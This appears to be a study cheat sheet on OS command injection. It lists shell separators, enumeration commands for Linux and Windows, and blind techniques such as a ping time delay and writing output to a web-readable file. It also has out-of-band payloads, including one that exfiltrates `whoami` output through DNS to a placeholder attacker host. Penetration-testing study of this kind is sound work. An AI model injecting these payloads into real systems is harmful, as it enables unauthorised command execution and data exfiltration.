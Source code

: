 # OS Command Injection
We can test with `&` character, which is CLI separator. For example:
```
& echo test &
```

Or `; whoami`
Good idea to use fuzzing paylaods in Burp Intruder

## Basic Enumeration
Linux:
* whoami
* uname -a
* ifconfig
* netstat -an
* ps -ef

Windows:
* whoami
* ver
* ipconfig /all
* netstat -an
* tasklist

## Blind OSI
### Time-delay
`& ping -c 10 127.0.0.1 &`  
Also we can use || in place of ; or &

### Output redirection
We can redirect output of command to some file we can have access
```
& whoami > /var/www/static/whoami.txt &
```
Then we just access the file whoami.txt from browser

### OAST interaction
```
& nslookup kgji2ohoyw.web-attacker.com &
```

### OAST data exfiltration
```
nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
## Characters for OSI
Both for Windows and UNIX
```
&
&&
||
|
```
Only for Linux:
```
;
newline (\n or 0x0a)
```
On UNIX systems we can also use inline exec chars:
```
`command`
$(command)
```
If input is controlled by quotes, we must separate thenm with ' or "
